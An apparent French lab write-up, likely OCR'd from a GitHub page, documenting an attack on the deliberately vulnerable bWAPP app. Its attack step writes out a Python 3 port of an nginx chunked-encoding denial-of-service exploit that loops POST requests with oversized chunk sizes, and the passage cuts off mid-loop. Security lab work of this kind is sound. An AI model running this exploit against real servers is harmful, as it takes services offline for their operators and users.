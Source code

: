 #### Attendu
- **ls -l** affiche le fichier dans **/app/evil** (existe).
- **curl -I** renvoie **HTTP/1.1 200 OK**.
- **python2 --version** renvoie une version **2.x**.

#### Observé
- Fichier présent et accessible via HTTP.
- **python3 3.12.3** disponible.

### Étape 1 : Attaque

#### Sous‑étapes
##### 1) Conversion du script
cat > /tmp/nginx_dos_py3_converted.py <<'PY'
#!/usr/bin/env python3
import http.client
import socket
import sys
import os

socket.setdefaulttimeout(1)
dos_packet = 0xFFFFFFFFFFFFFFEC
packet = 0

def chunk(data, chunk_size_hex):
    return f"{chunk_size_hex}\r\n{data}\r\n0\r\n\r\n"

if len(sys.argv) < 2:
    print("Usage: python3 nginx_dos_py3_converted.py host:port")
    print("Example: python3 nginx_dos_py3_converted.py 127.0.0.1:8081")
    sys.exit(1)

hostport = sys.argv[1].lower()
if ':' in hostport:
    host, port = hostport.split(':',1)
    try:
        port = int(port)
    except:
        port = 80
else:
    host = hostport
    port = 80

while packet <= 66:
    body = "beezzzzzzzzzz"
    chunk_size = hex(dos_packet + 1)[3:]
    chunk_size = ("F" + chunk_size[:len(chunk_size)-1]).upper()

    try:
        conn = http.client.HTTPConnection(host, port, timeout=2)
        url = "/bWAPP/portal.php"   # adapte si nécessaire
        conn.putrequest('POST', url)
        conn.putheader('User-Agent', 'bWAPP')
        conn.putheader('Accept', '*/*')
        conn.putheader('Transfer-Encoding', 'chunked')
        conn.putheader('Content-Type', 'application/x-www-form-urlencoded')
        conn.endheaders()
        conn.send(chunk(body, chunk_size).encode())
    except Exception as e:
        print("Connection error!", e)
        sys.exit(1)
